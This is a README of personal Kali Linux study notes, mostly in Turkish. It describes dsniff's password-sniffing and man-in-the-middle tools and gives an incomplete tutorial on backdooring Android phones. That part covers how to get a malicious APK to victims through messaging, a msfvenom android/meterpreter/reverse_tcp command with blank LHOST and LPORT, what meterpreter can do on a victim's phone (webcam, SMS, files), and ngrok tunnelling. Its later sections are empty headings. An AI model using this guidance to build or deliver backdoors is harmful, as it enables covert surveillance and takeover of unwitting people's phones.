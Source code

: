 # kali
Useful codes for kali linux

## Keyboard Commands
```setxkbmap tr``` -> to change keyboard language option. After shut down Kali Linux, this must be run once again because it will no more available. 

Kali Linux is case sensible.

```mkdir``` -> Creates a new folder.


```apt-get install dsniff```

dSniff is a set of password sniffing and network traffic analysis tools written by security researcher and startup founder Dug Song to parse different application protocols and extract relevant information. dsniff, filesnarf, mailsnarf, msgsnarf, urlsnarf, and webspy passively monitor a network for interesting data (passwords, e-mail, files, etc.). arpspoof, dnsspoof, and macof facilitate the interception of network traffic normally unavailable to an attacker (e.g., due to layer-2 switching). sshmitm and webmitm implement active man-in-the-middle attacks against redirected SSH and HTTPS sessions by exploiting weak bindings in ad-hoc PKI.[2] [3]

```passwd```
changes password

## Backdoor Applications


### Backdoor IOS and Android

IOS de bir uygulama yaptigimizda bunu kullaniciya ulastirmak icin elimizde cok az yol var. 
1)AppStore a koymak zorundayiz.
2)Kurban telefonunu fiziksel olarak elimize alip telefonu kablo ile MaC imize baglayip uygulamayi telefona indirebiliyoruz
3)Apple Business Developer hesabi ile uygulama ciktigimizda bunu AppStore a yuklememiz gerekmiyor. O isletmedeki belli kullanicilara uygulamayi acabiliyoruz. Bu sayede de zararli yazilimlari kullaniciya gonderebiliyoruz. 

Android - Google Play

Android de de siki denetim var. Diyelim ki bir app yazdik hem IoS hem de Android, Android e o gun yukleyebiliriz ama IoS tarafi cok inceleme yaptigindan o gun yayinlanmayabilir. Icersiinde bir backdoor uygulamasi olan app sonsuza kadar da Google paly de kalacak anlamina gelmemeli bu. Bir gun o app de silinir. Bunun yerine app i Google Play e yukleyip kullanicilara mesaj yoluyla(email, whatsapp vb) gibi gondermeyi tercih ederler Android de. 


Kullanicinin tek yapmasi gereken Google Play ayarlarinda Google Play store disindaki app lere olan izin kutusunu da acmis olmasi. Google play de app i mesaj yoluyla birilerine gonderebiliyoruz. 

Telefon icinde backdoor ureten araclardan bazilari hali hazirda Kali Linux icerisinde mevcut.

```msfvenom```

### Payload
-p -- payload; Hangi isletim sistemine, hangi ortamda nasil bir saldiriyla backdoor un olusacagi belirtilir.  Andoid icin olusturacagim APK dosyasinda bu payload da belirttigimiz tum arametreler yer alacaktir. 

APK Nedir? Bir kod yazildiktan sonra Android de uygulama haline getirdigimiz son dosyadir. Windows daki .exe dosyalari gibi. 
```msfvenom``` bize bir APK cikartacak, biz de bu APK yi kullaniciya yollayacagiz, kullanici da tikladiginda bizim Kali Linux mize bir baglanti gelecek. 

#### msfvenom -p nasil kullanilir?
Ornegin Windows icin bir backdoor uygulamasi olustursaydik -p ye isletim sistemi olarak Windows u belirtecektik.
Benzer sekilde Android icin;

```msfvenom -p android/meterpreter/reverse_tcp```

```meterpreter``` bir session aracidir. Ne demek session araci? Kurban hacklendiginde bizde meterpreter adinda bir session acilacak. Session, baglanti acilmasi demek. Bu meterpreter in ozelliklerini(dosya sisteminde gezinmek, kurbanin webcamini acmak, telefonundan sms yollamak) kullanip kurbanin telefonunda istedgimiz seyleri yapabilecegiz. Kurbani hackledikten sonra yapilabilecek en iyi seylerden biri meterpreter in acik oldugundan amin olmak. 

```reverse_tcp``` ters baglanti anlamina gelir

Backdoor larda iki secenek var;
1) Benim Kali Linux umden kurbana bir baglanti istegi yollamak; bu secenek cogu zaman Pc de veya mobile da kurbana baglanti istegi gittiginde bir firewall ya da guvenlik onlemi varsa bu cok kolay seilde fark edilebilir. 
2) reverse_tcp de ise kurban dan bize baglanti geliyor. Andoid e gonderdigimiz APK yi tiklayan kurban bize bir baglanti yolluyor. tcp ise hangi port y da teknoloji uzerinden baglanti yollayacagimizi belirttigimiz parametre. tcp yerine http ya da https de diyebiliriz. tcp su an en iyi calisani.
                         
### IP Adresses
```msfvenom -p android/meterpreter/reverse_tcp LHOST= LPORT= ```
LHOST: Localhost Su an uzerinde calistigimiz bilgisayarin IP adresi. Public IP mizi yazariz yani modemimizin IP adresini. Google dan ***what is my ip*** yazarak IP mizi ogrenebiliriz. Ayni agdaki tum cihazlarin public IP si aynidir, modemimize baglali bilgisayarlarimizin, telefonumuzun, televizyonumuzun hepsinin public Ip si aynidir.
Neden public IP mize yollatiyoruz? Cunku baglantinin bize ulasmasini istiyoruz.


Her cihazimizin kendi ait bir de yerel IP adresi var. Global IP adresini vermek hack lerken tehlikeli. 


LPORT: Localport Bilginin gelecegi port

Kurbana yolladigimiz dosyaya(trojan, virus) tikladiginda baglanti nereye gitsin? bu iki komutla belirliyoruz. 


### Tunnel Service

ngrok.com

```service aoache2 start``` Kali Linux un icerisinde bulunan apache2 adli sunucu calistiracak. Sunucu nedir? Icersiinde dosyalar bulunan, internet uzerinde farkli yerlere hizmet vermemizi olanak taniyan bir makina. Normalde web sitelerini sunucular uzerinde saklariz. Misal kendi Kali Linux muz icerisinde bir web sitesi yapabiliriz. 

Kali Linux muz icerisinde;
**/var/www/html/index.html** path inde web sitesi bulunmakta. Kali Linux NAT network de ve burada baska herhangi bir makina yok. Eger farkli isletim sistemelriyle farkli VM lrimiz olsaydi bu web sitesine hepsinden girilebilirdi cunku ayni agda olacaklardi. 

```ifconfig``` yazdigimizda inet in yanindaki IP adresini Firfox u acip arama cubuguna yazdigimizda apache 2 web sayfasi acilacak. 

### Create an APK

### Listening

### Signing 


### Hacking the Mobile phone
